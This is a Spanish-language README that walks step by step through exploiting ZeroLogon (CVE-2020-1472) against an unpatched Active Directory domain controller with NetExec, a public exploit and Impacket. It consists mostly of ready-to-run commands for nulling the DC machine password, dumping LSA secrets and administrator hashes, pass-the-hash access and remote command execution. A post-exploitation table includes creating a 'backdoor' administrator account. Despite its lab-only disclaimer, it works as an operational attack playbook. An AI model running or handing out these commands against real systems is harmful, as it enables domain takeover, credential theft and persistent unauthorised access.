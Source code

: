 # 📌 Ataque ZeroLogon (CVE-2020-1472)

Este repositorio documenta paso a paso cómo ejecutar el ataque **ZeroLogon** utilizando `NetExec` (antes CrackMapExec), el exploit de [VoidSec](https://github.com/VoidSec/CVE-2020-1472) y herramientas de Impacket.

---

## ⚠️ Importante

> Esta guía es solo para fines **educativos** y debe usarse únicamente en laboratorios controlados con permiso explícito. **NO** ejecutes este procedimiento en redes productivas.

---

## ⚙️ Requisitos

- Controlador de dominio sin parches para CVE-2020-1472.
- Máquina atacante con:
  - Linux o WSL.
  - Python 3.
  - NetExec (`nxc`), Impacket y Git instalados.

---

## 🧭 Paso a paso del ataque

### 1. Verificar conectividad SMB con el DC

```bash
nxc smb [IP_DEL_DC]
```

Repetir si es necesario para confirmar acceso:

```bash
nxc smb [IP_DEL_DC]
```

---

### 2. Explotar ZeroLogon con NetExec

```bash
nxc smb [IP_DEL_DC] -u '' -p '' -M zerologon
```

Este módulo intenta autenticar usando claves nulas y explotar la vulnerabilidad en Netlogon.
CHECKEAR esto y si es vulnerable.... lo siguiente

---

### 3. Clonar el exploit de VoidSec

Clonar repositorio
```bash
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
```

Verificar si no debemos instalar algun requisito

```bash
pip install -r requirements.txt
```

---

### 4. Cambiar la contraseña de la cuenta de equipo del DC
```bash
python3 cve-2020-1472-exploit.py
```

O usar argumentos manuales:

```bash
python3 cve-2020-1472-exploit.py -t [IP_DEL_DC] -n [NOMBRE_DEL_DC]
```

---

### 5. Volcar hashes con Impacket

```bash
impacket-secretsdump '[[NOMBRE_DEL_DOMINIO]]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

Esto permite obtener los secretos de LSA y hash de administrador.

---

### 6. Validar acceso como máquina y luego como administrador 

```bash
nxc smb [IP_DEL_DC] -u '[NOMBRE_DEL_DC]$' -p '' --lsa
```
Usamos el `--lsa` para dumpear HEX de maquina para recuperar contraseña

Con hash de administrador (por ejemplo):

```bash
nxc smb [IP_DEL_DC] -u '[USUARIO_ADMINISTRADOR]' -H '[HASH_DE_ADMINISTRADOR]' --lsa
```

---

### 7. Restaurar la contraseña original del DC

```bash
python3 reinstall_original_pw.py
```

O con argumentos:

```bash
python3 reinstall_original_pw.py [NOMBRE_DEL_DC]$ [IP_DEL_DC] [HEX_DE_CONTRASEÑA_DEL_DC]
```

---

### 8. Validar acceso final con hash NTLM

```bash
impacket-secretsdump '[[NOMBRE_DEL_DOMINIO]]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

---

### 9. Ejecutar comando remoto como administrador

```bash
nxc smb [IP_DEL_DC] -u 'administrator' -H '[HASH_DE_ADMINISTRADOR]' -x whoami
```
### 🛠 Comandos útiles post-explotación con `nxc smb`

| Comando        | Descripción                                       |
| -------------- | ------------------------------------------------ |
| `whoami`       | Muestra el usuario con el que estás autenticado. |
| `hostname`     | Muestra el nombre del equipo víctima.             |
| `systeminfo`   | Muestra información del sistema operativo y hardware. |
| `net user`     | Lista todos los usuarios locales en la máquina.  |
| `net localgroup administrators` | Lista los miembros del grupo de administradores locales. |
| `ipconfig /all`| Muestra la configuración de red completa.         |
| `query user`   | Muestra los usuarios conectados actualmente.      |
| `net user backdoor P@ssw0rd123! /add` | Crea un usuario local llamado `backdoor` con contraseña `P@ssw0rd123!`. |
| `net localgroup administrators backdoor /add` | Añade el usuario `backdoor` al grupo de administradores locales. |
| `dir C:\\Users\\Administrator\\Desktop` | Lista los archivos en el escritorio del administrador. |
| `type C:\\Users\\Public\\documents\\passwords.txt` | Muestra el contenido del archivo `passwords.txt`. |
| `shutdown /r /t 0` | Reinicia inmediatamente el equipo remoto.         |

---

## 🧪 ¿Qué hicimos?

- Usamos `nxc` para aprovechar la vulnerabilidad en Netlogon.
- Reemplazamos la contraseña de la cuenta del DC con una contraseña nula.
- Extraímos hashes y secretos del sistema.
- Accedimos remotamente como administrador de dominio.
- Finalmente restauramos el estado original.

---

## 📚 Referencias

- [ZeroLogon CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec CVE-2020-1472 Exploit](https://github.com/VoidSec/CVE-2020-1472)
- [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

------

## 🚨 Advertencia

### Riesgo crítico: el AD puede romperse
El exploit ZeroLogon cambia la contraseña de la cuenta de máquina del controlador de dominio. Si no se restaura rápidamente, el controlador ya no podrá autenticarse ni replicarse con otros DCs.

**Esto puede:**
- Romper la replicación del Active Directory.
- Causar fallos en políticas, usuarios y servicios.
- Obligar a restaurar el dominio desde backups.

### 🛑 Siempre restaurá la contraseña original del DC antes de que se sincronice con otros controladores.

---

## 👤 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
